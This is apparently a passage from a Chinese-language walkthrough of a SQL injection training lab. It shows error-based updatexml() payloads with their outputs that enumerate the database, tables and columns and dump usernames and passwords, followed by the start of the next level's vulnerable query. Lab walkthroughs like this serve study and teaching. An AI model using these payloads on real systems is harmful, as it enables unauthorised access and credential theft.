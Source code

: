 updatexml(1,1,1)

## 查看数据库名称

`?id=1" or updatexml(1,concat(0x7e,(select database()),0x7e),1)--+`

> XPATH syntax error: '~security'

<a name="CeOmH"></a>

## 查看数据表名称

`?id=1" or updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1)--+`

> XPATH syntax error: '~emails,referers,uagents,users~'

<a name="vqZkZ"></a>

## 查看字段名称

`?id=1" or updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users' and table_schema=database()),0x7e),1)--+`

> XPATH syntax error: '~id,username,password~'

<a name="dltOi"></a>

## 查看字段内容

`?id=1" or updatexml(1,concat(0x7e,(select group_concat(concat(username,' ^ ',password)) from users),0x7e),1)--+`

> XPATH syntax error: '~Dumb ^ Dumb,Angelina ^ I-kill-y'

substring(1,2,3)
`?id=1" or updatexml(1,concat(0x7e,substring((select group_concat(concat(username,' ^ ',password)) from users),32,31),0x7e),1)--+`

> XPATH syntax error: '~ou,Dummy ^ p@ssword,secure ^ cr'

# Pass07

```
$sql="SELECT * FROM users WHERE id=(('$id')) LIMIT 0,1";
```

`?id=1`

> You are in.... Use outfile......
> 输出文件

`?id=1'`

> You have an error in your SQL syntax
> SQL语法有错误
